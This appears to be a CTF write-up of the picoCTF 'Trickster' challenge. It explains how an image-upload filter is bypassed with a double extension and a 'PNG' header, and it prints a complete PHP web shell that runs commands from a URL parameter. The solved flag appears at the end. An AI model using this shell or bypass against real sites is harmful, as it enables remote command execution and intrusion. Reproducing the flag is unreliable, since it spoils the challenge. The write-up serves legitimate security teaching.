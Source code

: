 ```yaml
---
layout: post
title:  "Trickster"
description: Exploiting a site that only accepts PNG files
date:   2024-09-14
tags: ["Medium", "Web Exploitation", "Web Shell"]
category: [CTF,picoCTF]
---
```


## Challenge Info
I found a web app that can help process images: PNG images only!

author: JUAN BONDOU

## Reconnaissance
The first thing I usually try for web challenges is to map out the site, so that's naturally what I tried here. I opened up Burpsuite, and attempted to map the site using Burpsuite's passive [spidering](https://en.wikipedia.org/wiki/web_crawler).

![nocrawl](/assets/img/trickster/nocrawl.png)

Unfortunately, this is a dead end. The actual file of importance is [robots.txt](https://en.wikipedia.org/wiki/Robots.txt) file, which tells web crawlers which parts of the site they're allowed and disallowed to index.

Navigating to the `robots.txt` file reveals the following:

![robots](/assets/img/trickster/robots.png)

So now we know the uploadss are stored in `/uploadss`, and that there's a `/instructions.txt` file. Let's take a quick look at the `instructions.txt`:

![instructions](/assets/img/trickster/instructions.png)

## Attempts
I googled "php webshell", and found [this](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985). The file doesn't require much editing thankfully. Obviously, we won't be allowed to uploads this as a `.php`.

Firstly, changing the file name to `shell.png` obviously isn't going to work, since then the code just won't be able to run.

Second, changing the file name to `shell.php.png` also will not work, since it still won't be able to run.

Third, while it seems like a good idea to change the signature bytes of `shell.php` to that of a png file, this will also return code errors.

## Injecting the Shell

Surprisingly, the solution is pretty simple. If we change the file name from `shell.php` to `shell.png.php`, and then include the text "PNG" at the top of our file, we'll be allowed an uploads.
```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
## Navigating the Shell
If we navigate to `/uploadss/<ourshell>.php`, we're greeted with this:
![shell](/assets/img/trickster/shell.png)

Upon running some simple linux commands (`ls`, `pwd`, etc.), we'll see that our shell is successful. The only thing we cannot do is navigate into other directories. Since we can't navigate into other directories, we're going to have to find a way to search the system for `.txt` files (the flag is typically in a `.txt`.

## Solution
To locate all `.txt` files, I ran `find / -type f -name '*.txt' 2>/dev/null
`.
- `find` is the command.
- `/` tells it to search everything under the root directory (so our entire system).
- `-type f` specifies to search for **files**.
- `-name '*.txt'` specifies that it should be ALL (*) `.txt` files.
- `2>/dev/null` suppresses error messages.

The return will be a long list of files, but scrolling *all* the way down reveals this:
![txt files](/assets/img/trickster/txts.png)

To read the `GQ4DOOBVMMYGK.txt` file, just run `cat /var/www/html/GQ4DOOBVMMYGK.txt`, and we have our flag.


flag: `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}`
